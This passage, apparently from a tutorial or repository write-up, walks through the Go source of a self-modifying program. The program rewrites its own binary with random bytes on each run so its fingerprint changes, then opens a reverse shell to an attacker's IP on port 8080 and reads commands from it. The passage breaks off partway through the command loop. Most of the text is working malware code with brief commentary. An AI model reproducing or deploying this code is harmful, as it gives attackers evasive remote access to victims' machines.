 ```golang
if err != nil {
    fmt.Printf("Error: Failed to read executable: %s\n", err)
    return
}
```
- The program reads the entire content of its own executable file into a byte slice. This content will later be modified.
### 4. **Modifying the Content**
```golang
newContent := append(content, randomBytes...)
```
- The program appends the previously generated random bytes to the executable content, creating a new version of the binary that is slightly different each time.
### 5. **Writing the Modified Content to a Temporary File**
```golang
tempFile := exePath + "_temp"
err = ioutil.WriteFile(tempFile, newContent, 0o777)
if err != nil {
    fmt.Printf("Error: Failed to write temporary file: %s\n", err)
    return
}
```
- The modified content (original executable content plus random bytes) is written to a temporary file. This file will replace the original executable.
### 6. **Replacing the Original Executable**
```golang
err = os.Remove(exePath)
if err != nil {
    fmt.Printf("Error: Failed to remove original executable: %s\n", err)
    return
}

err = os.Rename(tempFile, exePath)
if err != nil {
    fmt.Printf("Error: Failed to overwrite executable: %s\n", err)
    return
}
```
- The original executable is deleted, and the temporary file is renamed to the original executable’s name. This effectively replaces the original binary with the modified version, achieving self-modification.
### 7. **Establishing the Reverse Shell Connection**
```golang
createSSHConnection()
```
- After modifying itself, the program establishes a reverse shell connection to a hardcoded IP address (xxx.xxx.x.xxx) and port (8080).
### 8. **Handling Commands from the Server**
```golang
conn, err := net.Dial("tcp", "xxx.xxx.x.xxx:8080") // Change IP address to attacker's machine
if err != nil {
    fmt.Printf("Error: Failed to establish connection: %s\n", err)
    return
}
defer conn.Close()

for {
    message, err := bufio.NewReader(conn).ReadString('\n')
    if err != nil {
        fmt.Printf("Error: Failed to read message: %s\n", err)
        return
```